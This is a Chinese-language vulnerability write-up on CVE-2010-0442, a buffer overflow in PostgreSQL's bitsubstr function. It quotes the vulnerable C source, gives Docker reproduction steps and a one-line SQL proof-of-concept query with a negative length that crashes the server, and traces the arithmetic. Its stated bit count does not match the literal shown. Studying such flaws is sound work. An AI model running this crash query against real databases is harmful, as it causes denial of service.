


# CVE-2010-0442 CWE-189 PostgreSQL 缓冲区溢出

## 漏洞背景

-  **substring()函数**：PostgreSQL中用来处理 `bit` 类型数据，用于从字符串中提取子串。

## 漏洞原理

在 PostgreSQL 中，当调用 `substring()` 函数对 `bit` 数据类型进行操作时，没有适当的边界检查，负数的长度导致内存访问越界，从而触发了缓冲区溢出问题。攻击者可以精心构造恶意的 `bit` 输入，使传入的数据包含不正确的边界检查或非法长度（例如负数），从而导致 PostgreSQL 在执行操作时崩溃或更严重的内存损坏。

在这种情况下，攻击者提供的位值（`bit`）和 `substring` 函数的偏移量和长度参数可能会导致 PostgreSQL 内部缓冲区的越界访问，这是一种典型的缓冲区溢出问题。

## 漏洞定位

在 **src\backend\utils\adt\varbit.c** 文件中，第 **790** 行，`bitsubstr`函数用于从位串（bit string）中提取子串

```c
/* bitsubstr
 * retrieve a substring from the bit string.
 * Note, s is 1-based.
 * SQL draft 6.10 9)
 */
Datum
bitsubstr(PG_FUNCTION_ARGS)
{
	VarBit	   *arg = PG_GETARG_VARBIT_P(0);
	int32		s = PG_GETARG_INT32(1);
	int32		l = PG_GETARG_INT32(2);
	VarBit	   *result;
	int			bitlen,
				rbitlen,
				len,
				ipad = 0,
				ishift,
				i;
	int			e,
				s1,
				e1;
	bits8		mask,
			   *r,
			   *ps;

	bitlen = VARBITLEN(arg);  // 获取位串长度
	/* If we do not have an upper bound, set bitlen */
	if (l == -1)  // 处理子串长度为负的情况
		l = bitlen;
	e = s + l;  // 计算结束位置
	s1 = Max(s, 1);  // 调整起始和结束位置
	e1 = Min(e, bitlen + 1);
	if (s1 > bitlen || e1 < 1)  // 检查是否超出范围
	{
		/* Need to return a zero-length bitstring */
		len = VARBITTOTALLEN(0);
		result = (VarBit *) palloc(len);
		VARATT_SIZEP(result) = len;
		VARBITLEN(result) = 0;
	}
	else
	{
		/*
		 * OK, we've got a true substring starting at position s1-1 and
		 * ending at position e1-1
		 */
		rbitlen = e1 - s1;  // 计算结果位串的长度
		len = VARBITTOTALLEN(rbitlen);  // 计算结果位串的总长度（包括头部信息）
		result = (VarBit *) palloc(len);  //分配内存
		VARATT_SIZEP(result) = len;
		VARBITLEN(result) = rbitlen;
		len -= VARHDRSZ + VARBITHDRSZ;
		/* Are we copying from a byte boundary? */
		if ((s1 - 1) % BITS_PER_BYTE == 0)
		{
			/* Yep, we are copying bytes */
			memcpy(VARBITS(result), VARBITS(arg) + (s1 - 1) / BITS_PER_BYTE,
				   len);
		}
		else
		{
			/* Figure out how much we need to shift the sequence by */
			ishift = (s1 - 1) % BITS_PER_BYTE;
			r = VARBITS(result);
			ps = VARBITS(arg) + (s1 - 1) / BITS_PER_BYTE;
			for (i = 0; i < len; i++)
			{
				*r = (*ps << ishift) & BITMASK;
				if ((++ps) < VARBITEND(arg))
					*r |= *ps >> (BITS_PER_BYTE - ishift);
				r++;
			}
		}
		/* Do we need to pad at the end? */
		ipad = VARBITPAD(result);
		if (ipad > 0)
		{
			mask = BITMASK << ipad;
			*(VARBITS(result) + len - 1) &= mask;
		}
	}

	PG_RETURN_VARBIT_P(result);
}
```

当执行`SELECT substring(bit_string, s, l)`时，`bitsubstr`函数会被调用以从位串中提取子串：

- `bit_string`：输入的位串。
- `s`：子串的起始位置（1-based索引）。
- `l`：子串的长度。

当传入负数长度的参数，在计算结果位串的长度 rbitlen 时，该值会被计算为负，而函数并没有检查 rbitlen 的值是否为负，导致函数错误地处理数据，引发缓冲区溢出等安全问题。

修复后的代码通过增加对负数长度的检查，确保了函数在遇到此类情况时能够正确报错并终止执行

## 影响版本

PostgreSQL 8.0.23 及更早版本

## 环境搭建

使用Ubuntu 16.04作为基础镜像，下载安装 PostgreSQL 8.0.23



## 漏洞复现

1、进入docker容器命令行，使用postgres用户创建数据库testdb

```bash
docker exec -it postgres-8.0.23 /bin/sh
```

```sh
createdb -U postgres testdb
```

2、使用psql工具连接postgres用户的testdb数据库

```sh
psql -d testdb -U postgres
```

3、构造一个特定的 SQL 查询，使用 `substring()` 函数对 `bit` 类型数据执行操作，导致 PostgreSQL 崩溃

```sql
SELECT substring(B'10101010101010101010101010101010101010101010101', 33, -15);
```



## POC分析

```sql
SELECT substring(B'10101010101010101010101010101010101010101010101', 33, -15);
```

这个查询尝试从一个 `bit` 类型的字面量中提取子串。第二个参数（`33`）表示开始的位置，而第三个参数（`-15`）表示长度。`substring`函数在处理位串时会调用`bitsubstr`函数：

- bitlen 被设置为40，因为输入的位串长度是 40，s 为 33，l 为 -15。
- 结束位置 e = s + l = 33 + (-15) = 18
- 起始位置 s1 = Max(33, 1) = 33，结束位置 e1 = Min(18, 40 + 1) = 18
- 结果位串的长度 rbitlen = e1 - s1 = 18 - 33 = -15

这里出现了一个问题，`rbitlen`为负数，这在逻辑上是不合理的，后续的拷贝操作可能会基于负数长度进行，导致错误的内存访问或缓冲区溢出。

所以，由于 PostgreSQL 对这个操作没有适当的边界检查，负数的长度导致内存访问越界，从而触发了缓冲区溢出问题。

## 参考链接

[PostgreSQL - 'bitsubstr' Buffer Overflow - Linux dos Exploit](https://www.exploit-db.com/exploits/33571)

[在ubuntu 6.06 server 下源码安装Postgresql8.2.0-CSDN博客](https://blog.csdn.net/shaken/article/details/1452329)

[PostgreSQL: pgsql: 使 bit/varbit substring() 将任何负长度视为表示 --- PostgreSQL: pgsql: Make bit/varbit substring() treat any negative length as meaning](https://www.postgresql.org/message-id/20100107195339.A17B07541B9@cvs.postgresql.org)

[anoncvs.postgresql.org/cvsweb.cgi/pgsql/src/backend/utils/adt/varbit.c?r1=1.44.4.2&r2=1.44.4.3](https://anoncvs.postgresql.org/cvsweb.cgi/pgsql/src/backend/utils/adt/varbit.c?r1=1.44.4.2&r2=1.44.4.3)
